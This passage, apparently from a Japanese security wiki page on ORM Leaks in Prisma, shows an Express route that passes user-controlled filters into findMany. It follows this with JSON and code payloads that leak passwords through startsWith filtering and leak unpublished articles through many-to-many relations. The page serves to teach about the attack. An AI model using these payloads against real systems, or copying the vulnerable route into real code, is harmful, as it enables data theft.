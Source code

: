 攻撃者が `where` 句を制御できる状況を見てみましょう:

<pre class="language-javascript"><code class="lang-javascript">app.get('/articles', async (req, res) => {
try {
const posts = await prisma.article.findMany({
<strong>            where: req.query.filter as any // ORM Leaks に対して脆弱
</strong>        })
res.json(posts);
} catch (error) {
res.json([]);
}
});
</code></pre>

ユーザーのパスワードを直接フィルタリングすることが可能です:
```javascript
await prisma.article.findMany({
where: {
createdBy: {
password: {
startsWith: "pas",
},
},
},
})
```
> [!CAUTION]
> `startsWith`のような操作を使用すると、情報が漏洩する可能性があります。&#x20;

- **多対多のリレーショナルフィルタリングのバイパス:**&#x20;
```javascript
app.post("/articles", async (req, res) => {
try {
const query = req.body.query
query.published = true
const posts = await prisma.article.findMany({ where: query })
res.json(posts)
} catch (error) {
res.json([])
}
})
```
未公開の記事を漏洩させることは、`Category` -\[\*..\*]-> `Article` の多対多の関係を利用することで可能です：
```json
{
"query": {
"categories": {
"some": {
"articles": {
"some": {
"published": false,
"{articleFieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
```
すべてのユーザーを漏洩させることも可能であり、いくつかのループバック多対多関係を悪用します:
```json
{
"query": {
```